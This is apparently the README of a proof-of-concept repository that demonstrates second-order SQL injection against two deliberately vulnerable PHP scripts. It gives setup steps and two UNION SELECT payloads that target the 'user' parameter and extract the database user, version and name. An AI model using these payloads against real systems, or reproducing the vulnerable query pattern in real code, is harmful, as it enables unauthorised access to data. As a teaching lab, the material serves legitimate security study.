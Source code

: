 # Second-Order-SQLi
This is a POC for Second Order SQL Injection
0. Before using change the database details in both files ( getdata.php and instert.php)
1. When you run instertdata.php, it will create a two tables profile and pii. 
2. When you run getdata.php with id, it will fetch the details from both tables. 
 Though id is there in only profile table, internally the script run another sql query filter "user" as both have "user" column common. 
 Here "user" parameter is vulnerable
 
 Attack: 
  vunerable parameter (insert.php) - user
  1. Payload: X' UNION SELECT user(),version(),database(), 4 -- 
  2. Palyoad:  X' UNION SELECT 1,2,3,4 -- 
  
Note: Tested on Ubuntu X86_64 - PHP 7.0.22-2 version, Mysql 5.7.17-0ubuntu0.16.04.1
